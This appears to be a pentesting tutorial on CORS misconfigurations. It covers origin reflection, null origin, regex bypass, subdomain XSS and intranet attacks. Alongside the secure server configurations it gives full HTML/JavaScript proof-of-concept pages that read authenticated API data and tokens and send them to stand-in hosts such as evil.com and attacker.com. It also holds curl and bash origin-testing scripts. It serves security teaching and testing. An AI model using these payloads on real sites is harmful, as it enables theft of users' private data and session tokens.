


# 🌍 CORS — Cross-Origin Resource Sharing Security

> **Module:** Web Pentesting → HTTP Protocol  
> **Difficulty:** Beginner → Expert  
> **Tags:** `#cors` `#sop` `#origin` `#access-control` `#cors-misconfiguration` `#api-security`

---

## 🧠 Understanding Same-Origin Policy (SOP) First

Before CORS exists, there's SOP. CORS is a mechanism to **relax** SOP.

**Same-Origin Policy:** A browser security mechanism that prevents scripts from one origin from reading content from a different origin.

```
Origin = Scheme + Host + Port

https://example.com:443/page-a.html
        │          │   │
     Scheme      Host Port
     
Same-origin pairs:
✅ https://example.com/a     ←→  https://example.com/b         (same scheme, host, port)
✅ https://example.com:443/a ←→  https://example.com/b         (443 is default for https)

Different-origin pairs:
❌ https://example.com       ←→  http://example.com            (different scheme)
❌ https://example.com       ←→  https://api.example.com       (different host/subdomain!)
❌ https://example.com:443   ←→  https://example.com:8443      (different port)
❌ https://example.com       ←→  https://evil.com              (different domain)
```

**What SOP blocks:**
- JavaScript reading response from cross-origin fetch/XHR
- Reading cookies from another origin
- Accessing cross-origin iframe content

**What SOP does NOT block:**
- Sending cross-origin requests (CORS is about reading responses, not blocking sending)
- Loading images, scripts, stylesheets, iframes from other origins (embedding allowed)

---

## 🧠 Why CORS Exists

Modern web apps need cross-origin communication:
- Frontend at `app.example.com` needs to call API at `api.example.com`
- A web app needs Google Fonts, CDN resources
- A widget embedded on Partner sites needs to call home

CORS allows servers to declare: "I trust requests from these origins — let their JavaScript read my response."

---

## 🏗️ CORS Headers — Complete Reference

### Response Headers (Server → Browser):

| Header                          | Example Value                     | Purpose                              |
|---------------------------------|-----------------------------------|--------------------------------------|
| Access-Control-Allow-Origin     | `https://app.example.com` or `*` | Which origins can read the response  |
| Access-Control-Allow-Credentials| `true`                            | Allow cookies/auth headers cross-origin|
| Access-Control-Allow-Methods    | `GET, POST, PUT, DELETE`          | Allowed methods in preflight         |
| Access-Control-Allow-Headers    | `Content-Type, Authorization`     | Allowed request headers              |
| Access-Control-Expose-Headers   | `X-Total-Count, X-Request-ID`     | Headers JS can access in response    |
| Access-Control-Max-Age          | `86400`                           | Cache preflight response for N seconds|

### Request Headers (Browser → Server, CORS-related):

| Header                          | Example Value                     | Purpose                              |
|---------------------------------|-----------------------------------|--------------------------------------|
| Origin                          | `https://app.example.com`         | Where request comes from             |
| Access-Control-Request-Method   | `DELETE`                          | Method for upcoming preflight        |
| Access-Control-Request-Headers  | `Content-Type, Authorization`     | Headers for upcoming preflight       |

---

## ⚙️ Simple vs Preflighted Requests

### Simple Requests (No Preflight):

A request is "simple" if it meets ALL criteria:
- Method: GET, HEAD, or POST only
- Headers: only safe headers (Accept, Accept-Language, Content-Language, Content-Type)
- Content-Type: only `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`
- No event listeners on XMLHttpRequestUpload
- No ReadableStream in request

```
Simple request flow:
Browser               Server
  │                     │
  │── GET /api/data ───►│  (Origin: https://app.example.com added automatically)
  │   Origin: https://app.example.com
  │                     │── Check CORS policy
  │◄── Response ────────│
  │   Access-Control-Allow-Origin: https://app.example.com
  │                     │
  Browser checks header:
  - If ACAO matches Origin → allow JS to read response ✅
  - If ACAO doesn't match → block JS from reading ❌ (but request WAS sent!)
```

### Preflighted Requests (OPTIONS First):

Any request with custom headers, PUT/DELETE/PATCH, or JSON Content-Type triggers a preflight:



---

## 🔴 CORS Vulnerability 1: Origin Reflection

**The most common CORS misconfiguration.**

```python
# Vulnerable server-side code (Python/Flask)
@app.route('/api/user-data')
def user_data():
    origin = request.headers.get('Origin', '')
    # VULNERABLE: reflects back whatever Origin is sent!
    response.headers['Access-Control-Allow-Origin'] = origin
    response.headers['Access-Control-Allow-Credentials'] = 'true'
    return jsonify(user_sensitive_data())
```

**Detection:**

```bash
# Send a malicious Origin and check if it's reflected
curl -H "Origin: https://evil.com" \
     -H "Cookie: session=victim_session" \
     https://api.example.com/user/profile -v 2>&1 | grep -i access-control

# Expected VULNERABLE response:
# Access-Control-Allow-Origin: https://evil.com   ← reflected!
# Access-Control-Allow-Credentials: true           ← credentials allowed!

# If both present → complete CORS exploit possible
```

**Full PoC — Steal Authenticated API Data:**

```html
<!-- Attacker hosts this on https://evil.com/cors-poc.html -->
<!DOCTYPE html>
<html>
<head><title>CORS PoC - Origin Reflection</title></head>
<body>
<h1>CORS Origin Reflection Exploit PoC</h1>
<div id="output"></div>

<script>
async function exploitCORS() {
    try {
        const response = await fetch('https://api.example.com/user/profile', {
            method: 'GET',
            credentials: 'include',  // Send victim's cookies!
            headers: {
                'Content-Type': 'application/json'
            }
        });
        
        if (!response.ok) {
            document.getElementById('output').textContent = 'CORS blocked: ' + response.status;
            return;
        }
        
        const data = await response.json();
        
        // Exfiltrate stolen data to attacker's server
        await fetch('https://evil.com/collect', {
            method: 'POST',
            body: JSON.stringify({
                stolen_data: data,
                victim_cookies: document.cookie  // Only non-HttpOnly cookies
            })
        });
        
        document.getElementById('output').innerHTML = 
            '<b>Stolen data:</b><br><pre>' + JSON.stringify(data, null, 2) + '</pre>';
    } catch(e) {
        document.getElementById('output').textContent = 'Error: ' + e.message;
    }
}

// Trigger automatically when victim visits
exploitCORS();
</script>
</body>
</html>
```

---

## 🔴 CORS Vulnerability 2: Null Origin Trust

Some servers whitelist the `null` Origin (sent by `file://` pages, data URIs, sandboxed iframes):

```bash
# Test for null origin allowance
curl -H "Origin: null" \
     -H "Cookie: session=test" \
     https://api.example.com/data -v 2>&1 | grep -i access-control

# VULNERABLE response:
# Access-Control-Allow-Origin: null
# Access-Control-Allow-Credentials: true
```

**PoC — Sandboxed Iframe Exploit (null Origin):**

```html
<!-- Attacker page that generates null Origin via sandboxed iframe -->
<!DOCTYPE html>
<html>
<body>
<script>
// Create a sandboxed iframe — its requests have Origin: null
var iframe = document.createElement('iframe');
iframe.sandbox = 'allow-scripts';  // Only allow scripts, not same-origin
iframe.src = 'data:text/html,' + encodeURIComponent(`
<!DOCTYPE html>
<html>
<body>
<script>
fetch('https://api.example.com/user/sensitive-data', {
    credentials: 'include'  // Sends cookies even with null Origin!
})
.then(r => r.json())
.then(data => {
    // Exfiltrate to parent or attacker server
    window.top.postMessage(JSON.stringify(data), '*');
    // Or:
    new Image().src = 'https://evil.com/steal?data=' + btoa(JSON.stringify(data));
});
<\/script>
</body>
</html>
`);
document.body.appendChild(iframe);

// Receive stolen data from iframe
window.addEventListener('message', function(e) {
    console.log('STOLEN:', e.data);
    fetch('https://evil.com/collect', {method:'POST', body: e.data});
});
</script>
</body>
</html>
```

---

## 🔴 CORS Vulnerability 3: Wildcard With Credentials (Misconfiguration)

```http
# This combination is a browser-rejected misconfiguration:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

**Modern browsers BLOCK this combination.** But:
- Custom HTTP clients (curl, Python requests, mobile apps) ignore CORS → can still read response
- If an API key is used instead of cookies, the wildcard IS dangerous

```bash
# Wildcard CORS without credentials — any origin can read unauthenticated resources
curl -H "Origin: https://evil.com" https://api.example.com/public-data
# Access-Control-Allow-Origin: * → fine for public resources

# But if used on authenticated endpoint with API key in URL:
curl -H "Origin: https://evil.com" \
     "https://api.example.com/data?api_key=secret_key"
# Response readable by evil.com's JavaScript (no cookie needed if key in URL)
```

---

## 🔴 CORS Vulnerability 4: Regex Bypass

Servers that use regex to validate origins often have flawed patterns:

```python
# Vulnerable regex patterns:
import re

# Pattern: allow anything ending in .example.com
# BYPASS: evilexample.com (subdomain check missing the dot!)
re.match(r'https://.*example\.com', origin)
# Passes: https://evilexample.com ← BYPASS!

# Pattern: allow subdomains
# BYPASS: example.com.evil.com
re.match(r'https://[a-z]+\.example\.com', origin)
# Fails... but what about:

# Pattern: allow example.com (forgot to anchor)
re.match(r'https://example\.com', origin)
# Passes: https://example.com.evil.com ← BYPASS! (starts with allowed string)
```

```bash
# Test regex bypass payloads
ORIGINS=(
    "https://evilexample.com"
    "https://example.com.evil.com"
    "https://notexample.com"
    "https://sub.example.com.evil.com"
    "https://example.com%60.evil.com"
    "https://example.com%00.evil.com"
)

for origin in "${ORIGINS[@]}"; do
    echo -n "Testing $origin: "
    curl -s -H "Origin: $origin" \
         https://api.example.com/data \
         -D - -o /dev/null 2>&1 | grep -i "access-control-allow-origin"
done
```

**Full PoC for Regex Bypass:**
```html
<!DOCTYPE html>
<html>
<body>
<script>
// If api.example.com allows origin matching /example\.com/
// Attack from: https://evilexample.com/cors-poc.html

fetch('https://api.example.com/user/account', {
    credentials: 'include'
})
.then(r => r.json())
.then(data => {
    // Exfiltrate stolen account data
    navigator.sendBeacon('https://collector.evil.com/cors', JSON.stringify(data));
})
.catch(err => console.error('CORS blocked:', err));
</script>
</body>
</html>
```

---

## 🔴 CORS Vulnerability 5: Subdomain XSS → CORS Escalation

Even with correct CORS configuration, XSS on a trusted subdomain undermines CORS:

```
Scenario:
- api.example.com: Access-Control-Allow-Origin: https://sub.example.com ✅ (correct)
- sub.example.com: has XSS vulnerability (stored or reflected)

Attack:
1. Attacker finds XSS on sub.example.com
2. Injects JavaScript that makes fetch to api.example.com
3. CORS allows it! (sub.example.com is whitelisted)
4. Attacker reads victim's API data
```

```javascript
// XSS payload injected on sub.example.com that exploits CORS trust to api.example.com
fetch('https://api.example.com/user/private-data', {
    credentials: 'include',
    headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }
})
.then(r => r.json())
.then(data => {
    // api.example.com trusts sub.example.com via CORS
    // Attacker gets full access to the API response
    new Image().src = 'https://attacker.com/steal?d=' + btoa(JSON.stringify(data));
});
```

---

## 🔴 CORS Vulnerability 6: Internal Network CORS

Corporate intranet apps often have overly permissive CORS:

```bash
# Intranet app accessible via browser but not directly from internet
# Attack: victim's browser is the proxy!

# If intranet app has CORS misconfiguration (trusts * or reflects origin)
# External attacker site can use victim's browser to query internal resources

# Malicious page on evil.com:
fetch('http://internal-hr-system.corp.local/api/employees', {
    credentials: 'include'
})
// Victim's browser (on corp network) makes this request
// CORS policy on internal app is permissive
// Response returned to attacker
```

**Full Internal CORS PoC:**
```html
<!DOCTYPE html>
<html>
<body>
<script>
// Attacker's page — victim visits from corporate network
const internalTargets = [
    'http://192.168.1.1/api/config',
    'http://10.0.0.1/admin/users',
    'http://172.16.0.1/api/secrets',
    'http://internal-api.corp.local/v1/data'
];

async function attackInternalCORS() {
    for (const target of internalTargets) {
        try {
            const resp = await fetch(target, { credentials: 'include' });
            const data = await resp.text();
            await fetch('https://attacker.com/internal-data', {
                method: 'POST',
                body: JSON.stringify({ target, data })
            });
        } catch(e) {
            // Blocked or unreachable — note the error
            await fetch('https://attacker.com/probe-result', {
                method: 'POST',
                body: JSON.stringify({ target, error: e.message })
            });
        }
    }
}

attackInternalCORS();
</script>
</body>
</html>
```

---

## 🛠️ CORS Testing Methodology



```bash
#!/bin/bash
# CORS Testing Script

TARGET="${1:-https://api.example.com/user/data}"
echo "[*] CORS Testing: $TARGET"
echo "================================"

# Test 1: OPTIONS preflight
echo "[1] OPTIONS preflight:"
curl -s -X OPTIONS "$TARGET" \
     -H "Origin: https://evil.com" \
     -H "Access-Control-Request-Method: GET" \
     -H "Access-Control-Request-Headers: Authorization" \
     -D - -o /dev/null | grep -i "access-control"

echo ""

# Test 2: Origin reflection
echo "[2] Origin reflection (evil.com):"
curl -s "$TARGET" -H "Origin: https://evil.com" \
     -D - -o /dev/null | grep -i "access-control"

echo ""

# Test 3: Null origin
echo "[3] Null origin:"
curl -s "$TARGET" -H "Origin: null" \
     -D - -o /dev/null | grep -i "access-control"

echo ""

# Test 4: Regex bypass variants
echo "[4] Regex bypass variants:"
for origin in \
    "https://evil${TARGET#https://}" \
    "https://${TARGET#https://}.evil.com" \
    "https://notexample.com" \
    "https://sub.example.com.evil.com"; do
    result=$(curl -s "$TARGET" -H "Origin: $origin" \
             -D - -o /dev/null | grep -i "access-control-allow-origin")
    [ -n "$result" ] && echo "  $origin → $result"
done

echo ""
echo "[*] Testing complete"
```

---

## 🛡️ Secure CORS Configuration

```javascript
// Node.js / Express — Secure CORS implementation
const cors = require('cors');

const ALLOWED_ORIGINS = [
    'https://app.example.com',
    'https://www.example.com'
    // Process.env.ALLOWED_ORIGINS for dynamic config
];

const corsOptions = {
    origin: function(origin, callback) {
        // Allow requests with no origin (same-origin, server-to-server, curl)
        if (!origin) return callback(null, true);
        
        if (ALLOWED_ORIGINS.includes(origin)) {
            callback(null, true);
        } else {
            callback(new Error(`CORS policy: origin ${origin} not allowed`));
        }
    },
    credentials: true,               // Allow cookies/auth headers
    methods: ['GET', 'POST', 'PUT', 'DELETE', 'OPTIONS'],
    allowedHeaders: ['Content-Type', 'Authorization'],
    exposedHeaders: ['X-Total-Count'],
    maxAge: 86400                    // Cache preflight for 24 hours
};

app.use('/api/', cors(corsOptions));
```

```nginx
# Nginx — Dynamic CORS with origin whitelist
map $http_origin $cors_origin {
    default "";
    "https://app.example.com" "https://app.example.com";
    "https://www.example.com" "https://www.example.com";
}

server {
    location /api/ {
        if ($cors_origin != "") {
            add_header Access-Control-Allow-Origin $cors_origin always;
            add_header Access-Control-Allow-Credentials true always;
            add_header Access-Control-Allow-Methods "GET, POST, PUT, DELETE, OPTIONS" always;
            add_header Access-Control-Allow-Headers "Authorization, Content-Type" always;
            add_header Vary Origin always;  # CRITICAL: tell caches origin matters!
        }
        
        if ($request_method = OPTIONS) {
            add_header Access-Control-Max-Age 86400;
            return 204;
        }
    }
}
```

> ⚠️ **Critical:** Always add `Vary: Origin` response header! Without it, a CDN may cache the response for one origin and serve it to others.

---

## 📊 CORS Security Checklist

```
Testing:
□ Test origin reflection with evil.com
□ Test null origin
□ Test regex bypass variants (evil+domain, domain+evil, subdomain variants)
□ Test if CORS applies to authenticated endpoints
□ Test if Access-Control-Allow-Credentials: true with broad ACAO
□ Check if Vary: Origin is set (prevents cache poisoning)

Secure Implementation:
□ Explicit origin whitelist (not reflection)
□ No wildcard (*) on authenticated endpoints
□ Vary: Origin header on all CORS responses
□ Preflight responses cached with Access-Control-Max-Age
□ HTTPS only origins in whitelist
□ Credentials only when absolutely necessary
□ Minimal methods in Access-Control-Allow-Methods
□ Review trusted subdomains for XSS vulnerabilities
```

---

## 📚 CVEs & Real CORS Incidents

| CVE              | Year | Description                                                    |
|------------------|------|----------------------------------------------------------------|
| CVE-2018-8348    | 2018 | Microsoft Edge CORS bypass                                     |
| CVE-2021-21389   | 2021 | BuddyPress CORS misconfiguration → account takeover            |
| Various          | 2020 | Hundreds of bug bounty reports for CORS origin reflection      |

**Notable bug bounty CORS findings:**
- Shopify: CORS + subdomain XSS → admin account takeover
- Uber: CORS reflection on authentication API → account hijacking (2016)
- Yahoo: CORS on mail API → email reading from any origin
- Multiple fintech: CORS on transaction APIs → financial data exposure

---

*Last updated: 2024 | HackerNotes Web Pentesting Series*
